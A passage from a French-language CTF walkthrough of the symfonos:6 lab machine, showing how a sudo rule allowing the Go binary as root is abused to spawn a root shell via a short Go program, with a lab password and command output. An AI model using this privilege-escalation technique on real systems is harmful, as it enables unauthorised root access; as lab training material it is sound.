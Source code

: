 ## Go go gadgeto shell

Cette fois le mot de passe `h2sBr9gryBunKdF9` permet de se connecter en tant que `achilles` via `su`.

Cette utilisateur peut utiliser l'outil du langage `Golang` en tant que root :

```shellsession
[achilles@symfonos6 git]$ sudo -l
Entrées par défaut pour achilles sur symfonos6 :
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

L'utilisateur achilles peut utiliser les commandes suivantes sur symfonos6 :
    (ALL) NOPASSWD: /usr/local/go/bin/go
```

C'est certainement une vieille version car `go mod init` n'est pas supporté ici.

J'ai écrit ce code `Go` qui appelle bash en redirigeant les entrées / sorties :

```go
package main

import (
    "fmt"
    "os"
    "os/exec"
)

func main() {
    cmd := exec.Command("bash")
    cmd.Stdin = os.Stdin
    cmd.Stdout = os.Stdout
    cmd.Stderr = os.Stderr
    if err := cmd.Run(); err != nil {
        fmt.Println("Failed to start bash:", err)
    }
}
```

Et ça fonctionne :

```shellsession
[achilles@symfonos6 ~]$ sudo /usr/local/go/bin/go run gotroot.go 
[root@symfonos6 achilles]# id
uid=0(root) gid=0(root) groupes=0(root)
[root@symfonos6 achilles]# cd /root
[root@symfonos6 ~]# ls
proof.txt  scripts
[root@symfonos6 ~]# cat proof.txt

           Congrats on rooting symfonos:6!
                  ,_---~~~~~----._         
           _,,_,*^____      _____``*g*\"*, 
          / __/ /'     ^.  /      \ ^@q   f 
         [  @f | @))    |  | @))   l  0 _/  
          \`/   \~____ / __ \_____/    \   
           |           _l__l_           I   
           }          [______]           I  
           ]            | | |            |  
           ]             ~ ~             |  
           |                            |   
```